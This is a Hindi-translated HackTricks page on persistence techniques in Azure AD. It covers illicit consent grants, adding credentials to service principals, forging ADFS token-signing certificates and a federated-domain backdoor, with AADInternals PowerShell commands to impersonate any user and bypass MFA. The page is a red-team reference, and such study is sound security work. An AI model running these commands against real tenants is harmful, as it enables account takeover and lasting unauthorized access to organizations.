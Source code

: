 # Az - Persistence

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks swag प्राप्त करें**](https://peass.creator-spring.com)
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

### अवैध सहमति अनुदान

डिफ़ॉल्ट रूप से, कोई भी उपयोगकर्ता Azure AD में एक एप्लिकेशन पंजीकृत कर सकता है। इसलिए आप एक एप्लिकेशन को पंजीकृत कर सकते हैं (केवल लक्षित किरायेदार के लिए) जिसे व्यवस्थापक सहमति के साथ उच्च प्रभाव अनुमतियों की आवश्यकता होती है (यदि आप व्यवस्थापक हैं तो इसे स्वीकृत करें) - जैसे किसी के लिए मेल भेजना, भूमिका प्रबंधन आदि। यह हमें **फिशिंग हमले** को **सफलता के मामले में बहुत फलदायक** होगा।

इसके अतिरिक्त, आप उस एप्लिकेशन को अपने उपयोगकर्ता के रूप में स्वीकार कर सकते हैं ताकि उस पर पहुंच बनाए रख सकें।

### एप्लिकेशन और सेवा प्रिंसिपल्स

एप्लिकेशन प्रशासक, GA या microsoft.directory/applications/credentials/update अनुमतियों के साथ एक कस्टम भूमिका के साथ, हम मौजूदा एप्लिकेशन में क्रेडेंशियल (गुप्त या प्रमाणपत्र) जोड़ सकते हैं।

**उच्च अनुमतियों वाले एप्लिकेशन को लक्षित करना** या **उच्च अनुमतियों वाला एक नया एप्लिकेशन जोड़ना** संभव है।

एप्लिकेशन में जोड़ने के लिए एक दिलचस्प भूमिका होगी **विशेषाधिकारित प्रमाणीकरण प्रबंधक भूमिका** क्योंकि यह **वैश्विक प्रशासकों का पासवर्ड रीसेट** करने की अनुमति देता है।

यह तकनीक भी **MFA को छलना** अनुमति देती है।

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* प्रमाणपत्र आधारित प्रमाणीकरण के लिए
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### संघ - टोकन हस्ताक्षर प्रमाणपत्र

**DA विशेषाधिकार** के साथ on-prem AD पर, नए टोकन हस्ताक्षर और टोकन डिक्रिप्ट प्रमाणपत्र बनाना और आयात करना संभव है जिनकी बहुत लंबी मान्यता हो। यह हमें उन सभी उपयोगकर्ता के रूप में **लॉग-इन करने** की अनुमति देगा जिनका ImuutableID हमें पता है।

नीचे दिए गए कमांड को **ADFS सर्वर(ओं) पर DA के रूप में चलाएं** नए प्रमाणपत्र बनाने के लिए (डिफ़ॉल्ट पासवर्ड 'AADInternals'), उन्हें ADFS में जोड़ें, स्वचालित रोलवर को अक्षम करें और सेवा को पुनः आरंभ करें:
```powershell
New-AADIntADFSSelfSignedCertificates
```
फिर, Azure AD के साथ प्रमाणपत्र सूचना को अपडेट करें:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### संघ - विश्वसनीय डोमेन

एक टेनेंट पर जीए प्रिविलेज के साथ, एक नए डोमेन जोड़ना संभव है (सत्यापित होना चाहिए), इसकी प्रमाणीकरण प्रकार को संघीय और डोमेन को विशिष्ट प्रमाणपत्र (नीचे दिए गए कमांड में any.sts) और जारीकर्ता पर भरोसा करने के लिए कॉन्फ़िगर करना:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## संदर्भ

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
